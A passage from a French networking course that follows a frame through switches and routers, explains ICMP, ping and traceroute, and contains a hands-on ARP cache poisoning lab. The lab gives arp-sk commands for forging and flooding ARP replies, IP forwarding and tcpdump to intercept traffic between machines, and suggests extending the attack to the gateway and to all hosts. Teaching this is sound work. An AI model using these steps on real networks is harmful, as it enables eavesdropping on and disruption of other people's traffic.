Notre trame peut donc maintenant sortir sur notre câble !
Étape 2, le switch
La première machine qui va la recevoir est... le switch du réseau 192.168.0.0/24.
Il reçoit la trame et lit l'adresse MAC de destination.
Il va voir sa table CAM pour savoir s'il connaît cette adresse MAC, et voir sur lequel de ses ports il faut renvoyer la trame.
Si jamais il ne trouve pas l'adresse MAC, il la renverra sur tous ses ports actifs !
Il peut donc maintenant renvoyer la trame sur son port de sortie, qui est connecté au routeur. Le routeur reçoit la trame.
Étape 3, le routeur
La trame arrive à la couche 2 du routeur qui lit l'adresse MAC de destination.
C'est la sienne ! Il va donc finir de lire l'en-tête de couche 2, enlever l'en-tête Ethernet et envoyer le datagramme IP qu'il reste, au protocole de couche 3 indiqué dans l'en-tête.
La couche 3 va lire tout l'en-tête de couche 3, et notamment l'adresse IP de destination.
Le routeur voit alors que ce n'est pas son adresse, il sait donc qu'il va devoir renvoyer ce datagramme vers la machine de destination.
Il va donc chercher dans sa table de routage à quelle passerelle envoyer le paquet afin de joindre la machine 192.168.1.2.
Cette adresse appartient à l'un de ses propres réseaux, il va donc pouvoir lui envoyer le paquet directement.
Cependant, pour envoyer la trame sur le réseau, il va avoir besoin de l'adresse MAC de 192.168.1.2. Il va donc faire une requête ARP.
Une fois l'adresse MAC de 192.168.1.2 reçue, il va pouvoir former la trame et l'envoyer sur le réseau.
@MAC 192.168.1.2
@MAC 192.168.2.254
IP
???
IP SRC: 192.168.0.1
IP DST: 192.168.1.2
Données à envoyer
CRC
On remarque ici que seules les informations de couche 2 ont été modifiées !
La trame va donc sortir du routeur.
Étape 4, le retour du switch
La trame va arriver au switch, mais cette fois il s'agit du switch du réseau 192.168.1.0/24 qui n'est pas le même que le premier.
Il va regarder l'adresse MAC de destination et aiguiller la trame vers la machine 192.168.1.2.
Étape 5, réception par la machine 192.168.1.2
La machine 192.168.1.2 va recevoir la trame en couche 2 et va lire l'adresse MAC de destination.
C'est la sienne. Elle va donc lire la suite de l'en-tête et renvoyer le datagramme contenu dans la trame à la couche 3, c'est-à-dire au protocole IP.
La couche 3 reçoit le datagramme et lit l'en-tête. L'adresse IP de destination est la sienne, elle va donc envoyer les informations à la couche 4, qui va elle-même envoyer les informations à la couche 7 applicative.
Et le message est enfin reçu, ouf ! :D
Nous avons vu une partie seulement des étapes d'un dialogue entre deux machines sur un réseau. Nous verrons plus tard qu'il y a de nombreuses autres étapes. Et dire que tout cela se passe en quelques millisecondes !
Maintenant que nous avons compris comment se déroulait un dialogue sur un réseau local ET entre réseaux, nous allons pouvoir commencer à faire des choses intéressantes, et notamment jouer les apprentis pirates.
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Voici un chapitre qui devrait vous plaire, on commence à utiliser les connaissances que l'on a acquises pour mettre en place des techniques originales.
Nous allons essayer de réaliser une attaque réseau qui permet d'écouter le trafic d'une autre machine qui est connectée sur le même réseau que nous.
Le principe
L'attaque est basée sur le détournement du fonctionnement du protocole ARP. C'est pour cela qu'elle s'appelle du ARP cache poisonning.
Nous allons en réalité modifier à distance la table ARP d'une autre machine...
La théorie
Dans le meilleur des mondes, une machine fait un broadcast ARP, et la machine destinataire répond en fournissant son adresse MAC.
Mais que se passerait-il si je décidais aussi de répondre avec ma propre adresse MAC ?
Eh bien ce serait la dernière réponse qui serait prise en compte.
Par exemple, je peux tout à fait attendre de voir passer une requête ARP qui ne m'est pas destinée. J'attends deux secondes pour y répondre, et je suis alors quasiment sûr que ce sera ma réponse qui sera prise en compte. Et si j'ai mis dans la réponse ma propre adresse MAC, ce sera mon adresse MAC qui sera associée à l'adresse IP de la machine destinataire de la requête dans la table ARP du demandeur.
Prenons le schéma de la figure suivante comme exemple.
Nous avons trois machines d'adresses 192.168.0.1, 192.168.0.2 et 192.168.0.3.
Imaginons que nous sommes la machine 192.168.0.2 et que nous voulions écouter le trafic envoyé entre 192.168.0.1 et 192.168.0.3.
La machine 192.168.0.1 veut envoyer un message à la machine 192.168.0.3. Elle commence donc par envoyer un broadcast ARP afin de déterminer l'adresse MAC de 192.168.0.3. 192.168.0.3 répond à la requête ARP (elle répond directement à la machine 192.168.0.1, elle n'a pas besoin d'envoyer son message en broadcast à tout le monde). Et nous décidons de répondre aussi deux secondes plus tard.
En recevant la première réponse de 192.168.0.3, la machine 192.168.0.1 va mettre à jour sa table ARP :
Adresse IP
Adresse MAC
192.168.0.3
@MAC de 192.168.0.3
Table ARP de 192.168.0.1
Ce qui est tout à fait normal.
Mais la machine 192.168.0.1 va recevoir une nouvelle réponse, celle que nous avons envoyée et qu'elle va prendre en compte ! Or, cette réponse associe, non pas l'adresse IP de 192.168.0.3 à l'adresse MAC de 192.168.0.3, mais à notre adresse MAC, celle de 192.168.0.2.
Adresse IP
Adresse MAC
192.168.0.3
@MAC de 192.168.0.2
Table ARP de 192.168.0.1
Ainsi, désormais et jusqu'à ce que la table ARP soit mise à jour ou que la machine 192.168.0.3 ne lui envoie un paquet, la machine 192.168.0.1 va nous envoyer ses paquets en pensant les envoyer à 192.168.0.3.
Il ne nous reste plus qu'à faire la même attaque envers 192.168.0.3 pour modifier sa table ARP, pour pouvoir intercepter tous les échanges entre ces deux machines !
Amélioration de l'attaque
Cependant, nous avons deux problèmes actuellement :
si une des machines réussit à envoyer une réponse ARP à l'autre après la nôtre, la table ARP sera remise à jour correctement et l'attaque ne fonctionnera plus ;
au bout d'un certain temps, la table ARP se videra et l'attaque ne marchera plus.
Mais il y a une solution ! Et c'est le fonctionnement de ARP qui nous l'offre.
En fait, quand une machine reçoit une réponse ARP, même si elle n'a rien demandé, elle va prendre les informations contenues dans cette réponse comme étant valides et plus à jour que celles qu'elle possède déjà. Ainsi, on ne sera pas obligés d'attendre une requête ARP pour répondre.
On pourra "bombarder" la machine destination de réponses ARP pour être sûrs que sa table n'est jamais correctement remise à jour.
On sera sûrs alors de recevoir tout le trafic, tant que l'on fera durer l'attaque.
Tout cela est bien joli, mais comment on peut faire tout ça ?
Eh bien, des outils existent, et nous permettent de le faire facilement.
Mise en pratique
Nous allons utiliser trois de nos machines virtuelles pour mettre en œuvre cette attaque.
Maintenant que vous êtes à l'aise sous Linux pour modifier la configuration réseau de vos machines, donnez-leur les adresses du schéma précédent : 192.168.0.1, 192.168.0.2 et 192.168.0.3.
Nous pouvons faire un ping de 192.168.0.1 vers 192.168.0.3 et regarder la table ARP de chacune de ces machines ensuite :
debian201:~# ping 192.168.0.3
PING 192.168.0.3 (192.168.0.3) 56(84) bytes of data.
64 bytes from 192.168.0.3: icmp_seq=1 ttl=64 time=3.11 ms
64 bytes from 192.168.0.3: icmp_seq=2 ttl=64 time=0.107 ms
^C
--- 192.168.0.3 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1006ms
rtt min/avg/max/mdev = 0.107/1.610/3.114/1.504 ms
debian201:~# arp -an
? (192.168.0.3) at 00:0c:29:c6:49:27 [ether] on eth0
? (192.168.0.254) at 00:26:bb:16:21:84 [ether] on eth0
Nous voyons ici que la machine 192.168.0.3 possède l'adresse MAC 00:0c:29:c6:49:27.
Nous pouvons aussi regarder la table ARP de 192.168.0.3, car vu qu'elle a répondu à 192.168.0.1, elle possède son adresse MAC dans sa table :
debian203:~# arp -an
? (192.168.0.1) at 00:0c:29:61:e8:68 [ether] on eth0
? (192.168.0.254) at 00:26:bb:16:21:84 [ether] on eth0
Ainsi, nous voyons que la machine 192.168.0.1 possède l'adresse MAC 00:0c:29:61:e8:68.
Maintenant, plaçons-nous sur la machine 192.168.0.2 et préparons l'attaque.
Pour cela, nous allons avoir besoin d'un logiciel qui fabrique des paquets truqués pour nous. Il y en a plusieurs, nous allons faire cela à l'aide de arp-sk.
Installation de arp-sk
Sinon, pour ceux qui sont sous leur propre Debian, ça va être relativement simple, car il existe un package debian pour que l'installation soit facile (attention les Ubuntus, passez votre chemin, cela ne marchera pas...). Donc nous allons télécharger le package en ligne de commande à l'aide de la commande wget.
Retournons à nos machines sous Debian:
debian201:~# wget http://debian.zorglub.org/packages/arp-sk/arp-sk_0.0.16-1_i386.deb
--2011-05-10 15:06:59-- http://debian.zorglub.org/packages/arp-sk/arp-sk_0.0.16-1_i386.deb
Résolution de debian.zorglub.org... 91.121.79.101
Connexion vers debian.zorglub.org|91.121.79.101|:80...connecté.
requête HTTP transmise, en attente de la réponse...200 OK
Longueur: 25180 (25K) [application/x-debian-package]
Saving to: `arp-sk_0.0.16-1_i386.deb.1'
100%[==================================================================================================================>] 25 180
--.-K/s in 0,1s
2011-05-10 15:06:59 (255 KB/s) - « arp-sk_0.0.16-1_i386.deb.1 » sauvegardé [25180/25180]
debian201:~#
Nous avons donc récupéré le fichier arp-sk_0.0.16-1_i386.deb.
Comme son extension l'indique, c'est un package debian. Pour l'installer, il suffit d'utiliser l'ancêtre d'apt qui est dpkg :
debian201:~# dpkg -i arp-sk_0.0.16-1_i386.deb.1
(Lecture de la base de données... 28276 fichiers et répertoires déjà installés.)
Préparation du remplacement de arp-sk 0.0.16-1 (en utilisant arp-sk_0.0.16-1_i386.deb.1) ...
Dépaquetage de la mise à jour de arp-sk ...
Paramétrage de arp-sk (0.0.16-1) ...
Traitement des actions différées (« triggers ») pour « man-db »...
Et hop, arp-sk est installé !
Regardons rapidement sa syntaxe en tapant simplement arp-sk :
debian201:~# arp-sk
arp-sk version 0.0.16 (Tue Dec 21 20:48:52 CET 2004)
Author: Frederic Raynal <[email protected]>
Usage: arp-sk
-w --who-has send a ARP Who-has
-r --reply send a ARP Reply
-p --arping (bad) RARP emulation (NOT YET IMPLEMENTED)
-m --arpmim Man in the Middle (NOT YET IMPLEMENTED)
-d --dst dst in link layer (<hotname|hostip|MAC>)
-s --src dst in link layer (<hotname|hostip|MAC>)
--rand-hwa set random addresses in link header
--rand-hwa-dst set random dst in link header
--rand-hwa-src set random src in link header
-D --arp-dst dst in ARP message ([hostname|hostip][:MAC])
-S --arp-src dst in ARP message ([hostname|hostip][:MAC])
--rand-arp set random adresses in ARP message
--rand-arp-dst set random dst adresses in ARP message
--rand-arp-src set random src adresses in ARP message
--rand-arp-hwa-dst set random dst MAC adress in ARP message
--rand-arp-log-dst set random dst IP adress in ARP message
--rand-arp-hwa-src set random src MAC adress in ARP message
--rand-arp-log-src set random src IP adress in ARP message
-i --interface specify interface (eth0)
-c --count # of packets to send (infinity)
-T --time wait the specified number of seconds between sending \
each packet (or X micro seconds with -T uX)
--rand-time randomize the sending period of the packets
--beep beeps for each packet sent
-n --network broadcast address to use for icmp-timestamp
--use-ts an icmp-timestamp is send to resolve MAC to IP
-N --call-dns force address resolution in outputs (default is off)
-V --version print version and exit
-h --help this help :)
Mise en œuvre de l'attaque
Nous voyons rapidement que nous pouvons utiliser l'option -w pour envoyer une requête ARP et l'option -r pour envoyer une réponse ARP. Enfin, nous pouvons jouer sur les paramètres -s et -d pour modifier les adresses MAC source et destination et -S et -D pour les adresses IP source et destination.
Si nous voulons envoyer notre premier paquet pour modifier la table ARP de 192.168.0.1, il faudra donc envoyer une trame dans laquelle l'adresse MAC source est la nôtre et l'adresse IP source est celle de 192.168.0.3. Ainsi, la machine 192.168.0.1 associera dans sa table mon adresse MAC pour l'adresse IP de 192.168.0.3.
debian201:~# arp-sk -i eth0 -r -s 192.168.0.2 -d 192.168.0.1 -S 192.168.0.3 -D 192.168.0.1
+ Initialization of the packet structure
+ Running mode "reply"
+ Ifname: eth0
- Warning: can't find MAC addr for 192.168.0.2 => using local.
+ Source MAC: 00:0c:29:7b:ca:40
+ Source ARP MAC: 00:0c:29:7b:ca:40
+ Source ARP IP : 192.168.0.3
+ Target MAC: 00:0c:29:61:e8:68
+ Target ARP MAC: 00:0c:29:61:e8:68
+ Target ARP IP : 192.168.0.1
--- Start classical sending ---
TS: 15:22:05.371525
To: 00:0c:29:61:e8:68 From: 00:0c:29:7b:ca:40 0x0806
ARP For 192.168.0.1 (00:0c:29:61:e8:68):
192.168.0.3 is at 00:0c:29:7b:ca:40
Pour être sûrs que l'attaque fonctionne, je vous conseille de faire un ping de 192.168.0.1 vers 192.168.0.3 juste avant, pour que 192.168.0.1 possède une entrée pour 192.168.0.3 dans sa table ARP.
Voici la table ARP de 192.168.0.1 juste avant l'attaque :
debian201:~# arp -an
? (192.168.0.3) at 00:0c:29:c6:49:27 [ether] on eth0
? (192.168.0.2) at 00:0c:29:7b:ca:40 [ether] on eth0
? (192.168.0.254) at 00:26:bb:16:21:84 [ether] on eth0
Et juste après :
debian201:~# arp -an
? (192.168.0.3) at 00:0c:29:7b:ca:40 [ether] on eth0
? (192.168.0.2) at 00:0c:29:7b:ca:40 [ether] on eth0
? (192.168.0.254) at 00:26:bb:16:21:84 [ether] on eth0
On voit bien que l'adresse MAC associée à l'adresse IP de 192.168.0.3a changé et qu'elle est maintenant la mienne.
Amélioration de l'attaque
Nous avions vu que, pour que l'attaque soit efficace, il faudrait bombarder la victime de réponses ARP.
Avec arp-sk c'est facile à réaliser à l'aide de l'option -T. Nous allons envoyer dix réponses par seconde : arp-sk -i eth0 -r -s 192.168.0.2 -d 192.168.0.1 -S 192.168.0.3 -D 192.168.0.1 -T u10000
Vous pouvez voir que cela va maintenant très vite !
De plus, il y a très peu de chances pour que 192.168.0.3 arrive à envoyer une réponse ARP qui écrase la nôtre.
Mais quel est l'intérêt de cette attaque ?
Conséquences et objectifs de l'attaque
Menez l'attaque et essayez d'envoyer un ping de 192.168.0.1 à 192.168.0.3.
En fait, les paquets sont envoyés à 192.168.0.2 (notre machine) et la couche 3 les rejette, car le routage n'est pas activé.
Dès lors que nous activons le routage, les pings passent. Sur la machine 192.168.0.2 : debian202:~# echo 1 > /proc/sys/net/ipv4/ip_forward
Et le résultat sur la machine 192.168.0.1 :
debian201:~# ping 192.168.0.3
PING 192.168.0.3 (192.168.0.3) 56(84) bytes of data.
64 bytes from 192.168.0.3: icmp_seq=1 ttl=64 time=0.155 ms
64 bytes from 192.168.0.3: icmp_seq=2 ttl=64 time=0.128 ms
^C
--- 192.168.0.3 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 999ms
rtt min/avg/max/mdev = 0.128/0.141/0.155/0.018 ms
Le ping passe bien à nouveau. Nous venons de découvrir qu'un premier objectif de l'attaque peut être d'empêcher deux machines de communiquer entre elles.
Une fois le routage activé, nous pouvons aussi observer le dialogue entre 192.168.0.1 et 192.168.0.3.
Essayons de le voir.
Nous lançons l'attaque depuis 192.168.0.2.
Nous lançons un ping de 192.168.0.1 vers 192.168.0.3.
Nous écoutons sur 192.168.0.2 pour voir si l'on voit passer le ping.
Comme pour le TP sur le routage, nous allons utiliser tcpdump :
debian202:~# tcpdump icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 96 bytes
16:13:04.240711 IP 192.168.0.1 > 192.168.0.3: ICMP echo request, id 46126, seq 301, length 64
16:13:04.245476 IP 192.168.0.1 > 192.168.0.3: ICMP echo request, id 46126, seq 301, length 64
Nous pouvons remarquer deux choses :
nous voyons bien passer les requêtes ping ;
nous ne voyons pas passer les réponses renvoyées par 192.168.0.3 ?!
Pourquoi ne voit-on pas passer les réponses ?
Parce que nous n'avons lancé l'attaque que dans un sens !
Nous n'avons pas encore modifié la table ARP de 192.168.0.3. Donc il renvoie normalement ses réponses directement à 192.168.0.1 sans passer par nous. Essayez de mener l'attaque dans les deux sens et observez si vous voyez bien passer les réponses au ping.
Encore une amélioration de l'attaque
Nous avons vu que grâce à cette attaque, nous sommes capables d'écouter le trafic entre deux machines sur un réseau local.
Mais n'y aurait-il pas une machine particulière sur le réseau qu'il serait intéressant d'écouter ?
Bien sûr ! C'est notre passerelle, car elle voit passer tout le trafic des machines du réseau local vers Internet !
Ainsi, si je menais l'attaque entre une machine du réseau local et la passerelle, je pourrais voir le trafic Internet de cette machine...
Mais nous pouvons faire encore mieux !
Encore une amélioration de l'amélioration de l'attaque
Nous pouvons écouter le trafic entre une machine et la passerelle mais, tant qu'à faire, il serait encore mieux d'écouter le trafic entre toutes les machines du réseau et la passerelle.
Pour cela, nous pouvons utiliser l'adresse IP de broadcast en adresse IP de destination pour envoyer notre attaque et nous toucherons ainsi directement toutes les machines du réseau (le sens inverse de l'attaque devra par contre être fait pour chacune des machines).
Nous avons vu le protocole ARP et comment l'utiliser à des fins peu recommandables. :ninja:
Mais nous allons voir qu'il existe d'autres protocoles de couche 3, notamment celui qui nous sert déjà depuis un petit moment à envoyer des pings ou à faire des traceroute, le protocole ICMP.
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
N'oublions pas que nous avons vu que le protocole ARP n'était pas un vrai protocole de couche 3 :
il était à cheval sur les couches 2 et 3 ;
son rôle n'était pas de transporter de l'information, mais de faire la liaison entre des adresses.
Le protocole ICMP, lui, ne va pas non plus concurrencer le protocole IP, car son objectif n'est pas de transporter de l'information.
Son rôle est de contrôler les erreurs de transmission, et d'aider au débogage réseau.
Pourquoi un autre protocole ?
Nous avons vu dans les TP précédents que la configuration du routage sur un réseau n'est pas toujours facile. Et quand ça ne marche pas, il n'est pas facile non plus de trouver d'où vient l'erreur.
L'un des objectifs du protocole ICMP est justement de nous faciliter le débogage réseau !
En gros, son utilisation nous permet de comprendre rapidement d'où peut venir un problème réseau, et de nous donner des outils pour investiguer un problème réseau.
Entrons sans plus tarder dans le vif du sujet pour comprendre ce protocole.
Fonctionnement du protocole
Il y a globalement deux rôles principaux pour le protocole ICMP :
ICMP sert à indiquer automatiquement des erreurs quand elles surviennent ;
ICMP peut fournir des outils pour étudier un problème réseau.
Nous allons commencer par voir les messages ICMP automatiques.
Les messages automatiques
Il y a deux informations qui nous intéressent dans l'en-tête ICMP, le type et le code. Le type permet de dire à quoi sert le message ICMP, le code permettant de préciser le rôle du message.
Par exemple, un paquet ICMP de type 3 indique que le destinataire n'est pas accessible.
Si j'envoie un paquet à une machine B et que je reçois un message ICMP de type 3, je sais qu'il y a eu un problème sur le réseau.
Maintenant, le code du message va me dire ce qui a précisément posé problème :
un code égal à 0 me dira que le réseau n'est pas accessible (globalement, qu'un routeur sur le chemin n'a pas de route pour le réseau destination) ;
un code égal à 1 me dira que la machine n'est pas accessible (une requête ARP a sûrement été envoyée par le dernier routeur, mais personne n'y a répondu) ; etc.
Au niveau de ma machine, si j'ai fait un ping par exemple, je verrai un message comme "Destination unreachable" dans ma ligne de commande. Mais si je suis en environnement graphique, il y a toutes les chances pour que je n'aie aucune information ICMP qui s'affiche, même si le paquet ICMP automatique a bien été reçu par ma machine.
Il faut dans ce cas sortir un sniffer comme tcpdump ou wireshark pour voir les messages d'erreur ICMP circuler sur le réseau.
Nous avons vu le premier type de message automatique, le type 3, mais il y en a d'autres, voici les plus utilisés :
type 5, ICMP redirect, indique qu'il y a un chemin plus court vers la destination ;
type 11, TTL exceeded, indique que la durée de vie du paquet a expiré.
Le premier est utilisé quand un routeur renvoie un paquet par l'interface depuis laquelle il l'a reçu. Cela veut dire qu'il n'est pas nécessaire de passer par lui et qu'il y a un chemin plus court. Ceci permet à l'administrateur qui voit passer ces messages d'améliorer le routage sur son réseau.
Le second est très utilisé. Pour le comprendre, vous devez déjà apprendre ce qu'est le TTL dans l'en-tête IP.
Nous avons déjà vu un TTL, c'était celui de la table CAM du switch. Il indiquait la durée de vie d'une information dans la table.
Eh bien un mécanisme équivalent a été implémenté dans le protocole IP pour éviter que les paquets ne circulent indéfiniment entre différents routeurs.
Imaginons qu'un routeur A ait comme passerelle par défaut un routeur B, et que le routeur B ait comme passerelle par défaut le routeur A.
Un paquet envoyé à l'un des routeurs à destination d'un autre réseau va circuler alternativement d'un routeur à l'autre, comme une balle de ping-pong, sans jamais s'arrêter. Après quelque temps, beaucoup de paquets feront de même, et le réseau sera saturé.
Pour éviter ce problème, on a implémenté un système de TTL dans l'en-tête IP. Quand une machine envoie un paquet IP sur le réseau, un des éléments de l'en-tête est le TTL qui est une valeur entre 0 et 255. Par exemple, tout paquet envoyé depuis un Linux a un TTL de 64, cela varie d'un système à l'autre, 64 étant la plus petite.
À chaque passage par un routeur, celui-ci va enlever 1 au TTL. Si le TTL arrive à 0, il jette le paquet à la poubelle ET envoie un message d'erreur ICMP "TTL exceeded".
Ainsi, si un paquet fait une partie de ping-pong entre deux routeurs, le processus s'arrêtera quand le TTL sera arrivé à 0. Grâce au TTL, on évite la saturation d'un réseau par mauvaise configuration de routage. Le message ICMP TTL exceeded permet, en plus, de comprendre le problème réseau.
Exemple de la vie réelle
J'essayai un jour de joindre le site web home.t-online.de. Cependant, le site ne s'affichait pas.
J'ai sorti mon sniffer wireshark pour voir ce qui se passait au niveau réseau et j'ai vu une multitude de paquets d'erreur ICMP TTL exceeded. Je sus qu'il y avait donc une boucle de routage.
J'ai donc fait un traceroute vers ce site pour essayer de voir où le problème se situait, voici le résultat :
oasis:~# traceroute -I home.t-online.de
traceroute: Warning: home.t-online.de has multiple addresses; using 80.150.6.141
traceroute to home.t-online.de (80.150.6.141), 30 hops max, 38 byte packets
1 81.255.207.234 (81.255.207.234) 0.858 ms 0.639 ms 0.576 ms
2 81.54.100.109 (81.54.100.109) 24.186 ms 26.186 ms 24.745 ms
3 POS-1-0.RASG3.Raspail.transitip.raei.francetelecom.net (81.52.1.18) 27.323
ms 24.169 ms 24.555 ms
4 193.253.14.229 (193.253.14.229) 23.600 ms 29.193 ms 23.694 ms
5 pos12-0.nraub203.Aubervilliers.francetelecom.net (193.252.98.206) 68.884 ms
28.058 ms 28.776 ms
6 193.252.159.126 (193.252.159.126) 23.305 ms 24.051 ms 22.996 ms
7 P14-0.OAKCR1.Oakhill.opentransit.net (193.251.243.170) 104.688 ms 105.018 ms 103.105 ms
8 P0-0.AUVCR1.Aubervilliers.opentransit.net (193.251.243.169) 112.958 ms 103.831 ms 134.542 ms
9 * P14-0.OAKCR1.Oakhill.opentransit.net (193.251.243.170) 179.294 ms 178.757 ms
10 * * P0-0.AUVCR1.Aubervilliers.opentransit.net (193.251.243.169) 178.746 ms
11 P14-0.OAKCR1.Oakhill.opentransit.net (193.251.243.170) 259.692 ms 263.818 ms 266.685 ms
12 P0-0.AUVCR1.Aubervilliers.opentransit.net (193.251.243.169) 261.118 ms 293.331 ms 264.925 ms
13 P14-0.OAKCR1.Oakhill.opentransit.net (193.251.243.170) 335.510 ms 397.171 ms 335.898 ms
14 P0-0.AUVCR1.Aubervilliers.opentransit.net (193.251.243.169) 336.620 ms 337.530 ms 335.621 ms
15 P14-0.OAKCR1.Oakhill.opentransit.net (193.251.243.170) 419.478 ms 424.713 ms 411.722 ms
16 P0-0.AUVCR1.Aubervilliers.opentransit.net (193.251.243.169) 411.349 ms 410.940 ms 412.112 ms
17 P14-0.OAKCR1.Oakhill.opentransit.net (193.251.243.170) 489.377 ms 490.542 ms 521.337 ms
18 P0-0.AUVCR1.Aubervilliers.opentransit.net (193.251.243.169) 504.906 ms 490.978 ms 492.207 ms
19 P14-0.OAKCR1.Oakhill.opentransit.net (193.251.243.170) 564.944 ms 565.928 ms 648.276 ms
20 P0-0.AUVCR1.Aubervilliers.opentransit.net (193.251.243.169) 568.282 ms 567.015 ms 567.414 ms
21 P14-0.OAKCR1.Oakhill.opentransit.net (193.251.243.170) 645.221 ms 646.876 ms 643.922 ms
22 P0-0.AUVCR1.Aubervilliers.opentransit.net (193.251.243.169) 644.485 ms 645.608 ms 649.534 ms
23 P14-0.OAKCR1.Oakhill.opentransit.net (193.251.243.170) 741.422 ms 728.093 ms 723.843 ms
24 P0-0.AUVCR1.Aubervilliers.opentransit.net (193.251.243.169) 740.067 ms 722.024 ms 724.235 ms
25 P14-0.OAKCR1.Oakhill.opentransit.net (193.251.243.170) 796.613 ms 798.530 ms 799.877 ms
26 P0-0.AUVCR1.Aubervilliers.opentransit.net (193.251.243.169) 799.558 ms 798.412 ms 799.756 ms
27 P14-0.OAKCR1.Oakhill.opentransit.net (193.251.243.170) 878.099 ms 874.756 ms 876.910 ms
28 P0-0.AUVCR1.Aubervilliers.opentransit.net (193.251.243.169) 875.829 ms 876.600 ms 876.874 ms
29 * P14-0.OAKCR1.Oakhill.opentransit.net (193.251.243.170) 956.227 ms *
30 P0-0.AUVCR1.Aubervilliers.opentransit.net (193.251.243.169) 954.058 ms 954.567 ms 952.010 ms
Nous pouvons voir ici que les étapes 7 et 8 se répètent à l'infini.
En fait, chacun de ces routeurs se renvoyait mes paquets indéfiniment.
Grâce au protocole ICMP, j'ai pu comprendre l'erreur et la faire corriger rapidement ! :D
Mais retournons à notre protocole. Nous avons vu un certain nombre de types de messages ICMP différents et envoyés automatiquement par les machines. Nous allons maintenant voir les types de messages utiles pour déboguer le réseau.
Messages utiles pour déboguer le réseau
Ces paquets ICMP vont en fait nous être utiles pour des commandes qui vont nous permettre de déboguer des problèmes réseau. Or, ces commandes, nous les connaissons déjà...
Il s'agit de la commande ping et de la commande traceroute.
Le ping est en fait la combinaison de deux types de messages ICMP, un echo request, type 8, et un echo reply, type 0.
Le principe du ping est qu'une machine envoie un echo request, auquel répond une machine destinataire avec un echo reply. C'est pour cela que quand on arrive à pinguer une autre machine, on sait que le routage est correct dans les deux sens.
Pour le traceroute, c'est un peu plus compliqué.
On utilise en fait une petite astuce en se servant d'un message automatique ICMP, le TTL exceeded.
Essayez de comprendre : comment peut-on connaître tous les routeurs entre nous et une destination donnée, en se servant de paquets ICMP TTL exceeded ?
Imaginons que je veuille faire un traceroute vers le Site du Zéro. Comment connaître le premier routeur par lequel je passe ?
On pourrait aller voir dans notre table de routage, mais cela ne fonctionnerait que pour le premier routeur...
L'indice nous dit d'utiliser un paquet ICMP TTL exceeded. L'idée pourrait donc être de faire générer ce paquet par le premier routeur. Ainsi, en voyant ce message d'erreur, je pourrais voir l'adresse du routeur dans ce paquet.
Comment faire pour faire générer ce message d'erreur par le premier routeur ?
Il suffit de mettre un TTL à 1 dans le paquet envoyé.
Le premier routeur va le recevoir, décrémenter le TTL de 1 et donc le mettre à 0. Il devra jeter le message à la poubelle et me renvoyer un message d'erreur ICMP TTL exceeded. Ainsi, je pourrai connaître son adresse IP !
Si vous avez compris le principe, pour connaître l'adresse du second routeur, il me suffira de mettre le TTL à 2 dans le paquet envoyé. Et ainsi de suite pour connaître tous les routeurs traversés !
Nous avons donc vu les différents types de messages ICMP et avons vu que ce protocole permettait de mieux comprendre ou détecter quand un problème survenait sur le réseau.
Passons à un peu de réflexion !
Exercice
J'ai fait un traceroute vers le Site du Zéro et j'ai obtenu le résultat suivant :
mamachine:~# traceroute www.siteduzero.fr
traceroute to www.siteduzero.fr (217.70.184.38), 30 hops max, 60 byte packets
1 88.191.45.1 (88.191.45.1) 0.404 ms 0.453 ms 0.500 ms
2 88.191.2.26 (88.191.2.26) 16.050 ms * *
3 th2-crs16-1-be1503-p.intf.routers.proxad.net (212.27.58.45) 0.788 ms 0.786 ms 0.795 ms
4 xe-0-3-0.mpr1.cdg11.fr.above.net (64.125.14.37) 0.563 ms 0.555 ms 0.568 ms
5 xe-1-0-0.mpr1.cdg12.fr.above.net (64.125.31.230) 0.742 ms 0.786 ms 0.778 ms
6 79.141.43.6.f301.above.net (79.141.43.6) 1.156 ms 0.957 ms 0.896 ms
7 79.141.43.6.f301.above.net (79.141.43.6) 1.223 ms 0.852 ms 0.966 ms
8 p250-gdist1-d.paris.gandi.net (217.70.176.178) 3.142 ms 3.155 ms 3.218 ms
9 webredir.vip.gandi.net (217.70.184.38) 0.841 ms 0.838 ms 0.832 ms
On voit ici que je suis passé deux fois par le routeur 79.141.43.6.f301.above.net dans les étapes 6 et 7.
Comment est-ce possible de passer deux fois par le même routeur ?
Indice : il faut penser au fait que deux messages envoyés sur le réseau peuvent emprunter des chemins différents...
Solution : en fait, le fonctionnement de traceroute fait en sorte qu'on envoie une nouvelle requête avec un TTL différent pour chaque routeur que l'on veut connaître. Mais chacune de ces requêtes peut passer par un chemin différent sur Internet, le résultat d'un traceroute n'est jamais figé dans le marbre, car le routage peut évoluer.
Ainsi, il est possible que quand j'ai envoyé le paquet avec un TTL de 6, j'ai emprunté une route qui me fasse passer par le routeur 79.141.43.6.f301.above.net en sixième position et que, quand j'ai envoyé le paquet avec un TTL de 7, j'ai rencontré le routeur 79.141.43.6.f301.above.net en septième position.
C'est ce qui explique que l'on ait l'impression de passer deux fois par le même routeur.
Ce chapitre se termine, vous saurez maintenant utiliser des outils comme ping et traceroute pour vous aider à comprendre des problèmes réseau, et vous pourrez aussi sortir votre sniffer préféré pour détecter des problèmes sous-jacents.
vous connaissez maintenant le protocole qui permet d'associer une adresse IP à une adresse MAC, j'ai nommé ARP ;
vous avez vu un premier exemple de sécurité réseau avec l'ARP cache poisonning ;
et enfin, vous connaissez le protocole ICMP qui permet de corriger et de déboguer le protocole IP.
Nous savons maintenant faire communiquer des machines d'un réseau à un autre grâce à la couche 3. Nous allons tout de suite continuer et étudier la couche 4.
Dans cette partie, nous avons appris:
l'adressage IP qui permet de définir les réseaux ;
le routage qui permet de passer d'un réseau à un autre ;
et enfin quelques protocoles supplémentaires qui permettent d'améliorer le fonctionnement des réseaux.
Nous savons maintenant dialoguer parfaitement d'un réseau à un autre. Nous pouvons donc joindre une machine à l'autre bout du monde.
Cependant, notre objectif est d'arriver à faire dialoguer des applications ensemble.
Pour cela, nous allons devoir étudier la couche 4.
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Après les gros chapitres que vous venez d'enchaîner, celui-ci fera figure de gâteau.
En effet, ce chapitre a surtout pour objectif de vous faire comprendre certains concepts que vous utilisez sûrement déjà. Il devrait donc être succinct et facile à comprendre.
Plongeons-nous dès maintenant dans les notions de client et de serveur qui sont si importantes sur Internet.
Pour une application client / serveur, il faut un serveur.
